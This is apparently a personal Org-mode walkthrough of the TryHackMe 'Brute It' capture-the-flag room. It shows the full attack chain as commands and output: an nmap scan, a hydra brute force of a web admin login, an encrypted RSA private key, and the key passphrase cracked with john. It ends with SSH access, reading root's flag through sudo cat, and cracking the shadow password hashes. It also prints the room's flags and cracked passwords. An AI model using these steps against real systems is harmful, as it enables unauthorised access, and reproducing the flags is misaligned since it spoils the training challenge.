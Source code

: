 #+TITLE: https://tryhackme.com/room/bruteit

* nmap
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Tue Nov 24 22:15:09 2020 as: nmap -sC -sV -oA nmap/scan 10.10.75.72
Nmap scan report for 10.10.75.72
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 24 22:15:33 2020 -- 1 IP address (1 host up) scanned in 24.08 seconds

#+end_src

* hydra
[[file:./images/screenshot-27.png]]
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ hydra -l admin -P ~/.cache/yay/rockyou/rockyou.txt 10.10.75.72 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 22:11:08
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.75.72:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel/
[80][http-post-form] host: 10.10.75.72   login: admin   password: xavier
[STATUS] attack finished for 10.10.75.72 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-24 22:11:34

#+end_src

* id_rsa
[[file:./images/screenshot-26.png]]
- -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----

* john
- password
  : rockinroll
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john forjohn --wordlist=/home/m/.cache/yay/rockyou/rockyou.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (/home/m/Desktop/haxxx/ctf/thm/boxes/bruteit/id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2020-11-24 22:26) 0.1742g/s 2498Kp/s 2498Kc/s 2498KC/s *7¡Vamos!
Session completed

#+end_src

* user.txt
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ ssh -i id_rsa john@10.10.75.72
The authenticity of host '10.10.75.72' (10.10.75.72) cant be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.72' (ECDSA) to the list of known hosts.
Enter passphrase for key id_rsa:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 25 03:34:48 UTC 2020

  System load:  0.0                Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 44%                IP address for eth0: 10.10.75.72
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$ clear
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
john@bruteit:~$

#+end_src

* root.txt
#+begin_src bash

john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

#+end_src

* unshadow
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ unshadow passwd.hash shadow.hash > unshadowed
┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat unshadowed
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:*:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:*:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:*:102:106::/home/syslog:/usr/sbin/nologin
messagebus:*:103:107::/nonexistent:/usr/sbin/nologin
_apt:*:104:65534::/nonexistent:/usr/sbin/nologin
lxd:*:105:65534::/var/lib/lxd/:/bin/false
uuidd:*:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:*:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:*:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:*:109:1::/var/cache/pollinate:/bin/false
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:1000:1000:THM Room:/home/thm:/bin/bash
sshd:*:110:65534::/run/sshd:/usr/sbin/nologin
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:1001:1001:john,,,:/home/john:/bin/bash
#+end_src

* root_password
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john --show unshadowed
root:football:0:0:root:/root:/bin/bash

1 password hash cracked, 2 left

#+end_src
